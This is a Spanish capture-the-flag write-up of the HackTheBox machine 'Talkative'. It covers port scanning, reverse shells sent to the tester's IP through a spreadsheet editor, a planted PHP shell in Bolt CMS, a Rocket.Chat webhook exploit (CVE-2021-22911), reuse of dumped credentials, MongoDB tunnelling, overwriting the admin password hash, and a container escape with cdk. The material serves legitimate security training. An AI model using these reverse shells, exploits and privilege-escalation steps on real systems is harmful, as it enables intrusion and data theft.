 ```yaml
---
title: Talkative hackthebox writeup
author: HackerCloud
date: 2022-08-30 00:00:00 +0800
categories: [Hackthebox, machine, writeup]
tags: [Hackthebox, writeup]
pin: false
---
```


Empezamos con el escaneo de nmap sobre los puertos de la máquina

```bash
❯ sudo nmap -sS -p- --open --min-rate 5000 -vvv -n -Pn 10.10.11.155 -oG allPorts
Scanning 10.10.11.155 [65535 ports]
Discovered open port 8080/tcp on 10.10.11.155
Discovered open port 80/tcp on 10.10.11.155
Discovered open port 8081/tcp on 10.10.11.155
Discovered open port 3000/tcp on 10.10.11.155
Discovered open port 8082/tcp on 10.10.11.155
Nmap scan report for 10.10.11.155
PORT     STATE SERVICE         REASON
80/tcp   open  http            syn-ack ttl 62
3000/tcp open  ppp             syn-ack ttl 62
8080/tcp open  http-proxy      syn-ack ttl 62
8081/tcp open  blackice-icecap syn-ack ttl 62
8082/tcp open  blackice-alerts syn-ack ttl 62
```

Con curl podemos ver un dominio

```html
❯ curl 10.10.11.155
<html><head>
<title>301 Moved Permanently</title>
</head><body>
<h1>Moved Permanently</h1>
<p>The document has moved <a href="http://talkative.htb">here</a>.</p>
<hr>
</body></html>
```

En el puerto 80 no encontramos nada interesante, podemos ir al puerto 8080 a ver su contenido

Podemos ver que hay una aplicación de Hoja de cálculo normal, tenemos disponible un editor que nos permite ejecutar código, vamos a intentar ejecutar una reverse shell

En este caso voy a usar esta reverse shell `system('bash -c "bash -i >& /dev/tcp/10.10.14.75/1234 0>&1"')`

Y nos llega una shell, se puede ver que es un contenedor, pero podemos ver cosas

```bash
❯ sudo nc -lvnp 1234
listening on [any] 1234 ...
connect to [10.10.14.75] from (UNKNOWN) [10.10.11.155] 45940
root@b06821bbda78:/# whoami
whoami
root
root@b06821bbda78:/# hostname -I
hostname -I
172.18.0.2 
root@b06821bbda78:/#
```

Encontramos el archivo `/root/bolt-administration.omv`, no tenemos nada dentro de la máquina para poder descargar este archivo en nuestra máquina, podemos usar pwncat-cs para descargarlo

Una vez descargado podemos ver que contiene usuarios y contraseñas

~~~
matt
janit
saul
jeO09ufhWD<s
bZ89h}V<S_DA
)SQWGm>9KHEA
~~~

Dentro de http://talkative.htb hay un directorio bolt, el cual contiene un Login, podemos probar las crendenciales que hemos encontrado

El usuario admin funciona con la contraseña `jeO09ufhWD<s`  

Una vez iniciada la sesión podemos ver un apartado de configuración, dentro hay un apartado llamado `All Configuration Files`, vamos a ver su contenido

Podemos ver un archivo llamado `Bundle.php` , le damos click y metemos una reverse shell en php dentro

Nos ponemos en escucha con Netcat y nos llega una reverse shell como www-data, podemos ver que estamos en un contenedor

```bash
❯ sudo nc -lvnp 1234
listening on [any] 1234 ...
connect to [10.10.14.75] from (UNKNOWN) [10.10.11.155] 57846
www-data@b922262b694b:/var/www/talkative.htb/bolt/public$ hostname -I
hostname -I
172.17.0.15 
```

Este contenedor no nos da mucha información, podemos probar las credenciales encontradas anteriormente por SSH

```bash
www-data@b922262b694b:/var/www/talkative.htb/bolt/public$ ssh saul@172.17.0.1
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
saul@172.17.0.1 password: jeO09ufhWD<s
saul@talkative:~$ whoami
saul
saul@talkative:~$ cat user.txt 
cd8c******cb258c950d9edcc065
```

Con pspy descubrimos este proceso

```bash
CMD: UID=0    PID=4894   | /bin/sh -c python3 /root/.backup/update_mongo.py
```

```bash
saul@talkative:~$ netstat -nat
tcp        0      0 172.17.0.1:43752        172.17.0.2:27017        TIME_WAIT
```

Vemos el puerto de mongo abierto, por defecto es el 27017

Con [chisel](https://github.com/jpillora/chisel) tunelizamos la conexión hacia nuestra máquina

```bash
❯ chisel server --reverse --port 8000
2022/08/30 17:21:20 server: Reverse tunnelling enabled
2022/08/30 17:21:20 server: Fingerprint 4iFocLbXWmRvOoiAYCwK9t8TfvcH6MJOSR1ngLYhgoM=
2022/08/30 17:21:20 server: Listening on http://0.0.0.0:8000
```

```bash
saul@talkative:~$  ./chisel client 10.10.14.75:8000 R:27017:172.17.0.2:27017
2022/08/30 15:25:37 client: Connecting to ws://10.10.14.75:8000
2022/08/30 15:25:37 client: Connected (Latency 38.916105ms)
```

Ahora podemos intentar conectarnos a mongoDB e intentar cambiar la contraseña del usuario administrador de la web

```bash
rs0 [direct: primary] test> show databases
admin   104.00 KiB
config  124.00 KiB
local    11.69 MiB
meteor    4.91 MiB
rs0 [direct: primary] test> use meteor
switched to db meteor
rs0 [direct: primary] meteor> db.getCollection('users').update({username:"admin"}, { $set: {"services" : { "password" : {"bcrypt" : "$2a$10$n9CM8OgInDlwpvjLKLPML.eizXIzLlRtgCh3GRLafOdR9ldAUh/KG" } } } })
{
  acknowledged: true,
  insertedId: null,
  matchedCount: 1,
  modifiedCount: 1,
  upsertedCount: 0
}
```

Ahora como tenemos tunelizada la conexión tenemos que meternos por el puerto 8000

Podemos ir al apartado de Administración>integraciones para crear una nueva integración

Nueva integración>WebHook entrante

Habilitado: Verdadero
Nomb: Shell
Canal: #general
Publicar como: admin
script habilitado: verdadero

Vamos a usar la primera línea de este [exploit](https://github.com/CsEnox/CVE-2021-22911/blob/main/exploit.py) 

```bash
const require = console.log.constructor('return process.mainModule.require')();
require('child_process').exec('bash -c "bash -i >& /dev/tcp/10.10.14.75/1234 0>&1"');
```

Lo guardamos y hacemos un curl a la URL con nuestro Token

```bash
❯ curl http://talkative.htb:3000/hooks/hA7ZNgGYHtRhpYBjH/CsNw6amXPMXR4PH9SANT7cyrFaDwhMpLNiiCwHzX9gCfwXcc
{"success":false}
```

```bash
❯ nc -lvnp 1234
listening on [any] 1234 ...
connect to [10.10.14.75] from (UNKNOWN) [10.10.11.155] 57468
root@c150397ccd63:/app/bundle/programs/server# hostname -I
hostname -I
172.17.0.3
```

Ahora con pwncat-cs un cdk podemos conseguir archivos de la máquina real, podemos leer directamente la flag.

```bash
❯ pwncat-cs -lp 1234
[17:41:55] Welcome to pwncat 🐈!                                                                                                               
(local) pwncat$ upload cdk /root/cdk
/root/cdk
[17:42:12] uploaded 11.91MiB in 6.67 seconds                                                                                                      
(local) pwncat$ back
(remote) root@c150397ccd63:/app/bundle/programs/server# cd /root
(remote) root@c150397ccd63:/root# chmod +x cdk                                                                                                               
(remote) root@c150397ccd63:/root# ./cdk run cap-dac-read-search /root/root.txt                                                                               
Running with target: /root/root.txt, ref: /etc/hostname
57ebcfafa23a47da6507a95d1307beff
(remote) root@c150397ccd63:/root#
```

